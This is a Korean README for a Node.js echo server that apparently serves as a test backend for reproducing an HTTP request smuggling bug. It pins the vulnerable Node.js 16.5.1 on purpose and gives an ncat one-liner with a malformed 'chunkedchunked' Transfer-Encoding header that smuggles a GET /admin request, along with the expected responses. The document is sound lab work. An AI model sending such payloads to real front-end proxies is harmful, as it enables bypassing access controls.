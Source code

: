 # Backend (Node.js 서버) README

요구사항:

- Node.js 16.5.1 (이보다 높은 버전은 파서 버그가 패치되어서 스머글링 불가능)

테스트 서버 실행:

``` console
node app.js
```

밑의 코드는 개발중인 코드고 실제로 동작하는 서버 코드는 이부분입니다:

``` javascript
  let body = [];
  req.on('error', (err) => {
    res.end("error while reading body: " + err)
  }).on('data', (chunk) => {
    body.push(chunk);
  }).on('end', () => {
    body = Buffer.concat(body).toString();
    res.on('error', (err) => {
      res.end("error while sending response: " + err)
    });
   res.end(JSON.stringify({
      "URL": req.url,
      "Headers": req.headers,
      "Length": body.length,
      "Body": body,
    }) + "\n");
  });
```

그냥 요청 URL, Header, Length, Body를 그대로 되돌려주기만 합니다.

로컬에서 실행했을 때에는, Windows Powershell과 [NMap](https://nmap.org/ncat/)의 ncat을 사용해서 [파싱 버그를 재현](https://hackerone.com/reports/1524555)했었습니다.

``` console
echo "GET / HTTP/1.1`r`nTransfer-Encoding: chunkedchunked`r`n`r`n26`r`nGET / HTTP/1.1`r`nContent-Length: 30`r`n`r`n`r`n0`r`n`r`n`r`nGET /admin HTTP/1.1`r`n" | ncat localhost 8080
```

이렇게 요청했을 때 응답이 이래야 합니다:

응답 1번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 127

{"URL":"/","Headers":{"transfer-encoding":"chunkedchunked"},"Length":38,"Body":"GET / HTTP/1.1\r\nContent-Length: 30\r\n\r\n"}
```

응답 2번째:

```
HTTP/1.1 200 OK
Date: Wed, 01 Nov 2023 06:58:11 GMT
Connection: keep-alive
Keep-Alive: timeout=5
Content-Length: 51

{"URL":"/admin","Headers":{},"Length":0,"Body":""}
```

중요한 건 ATS가 첫 번째 요청을 무시하면서 그걸 노드에 그대로 전달해주는지 마는지네요.
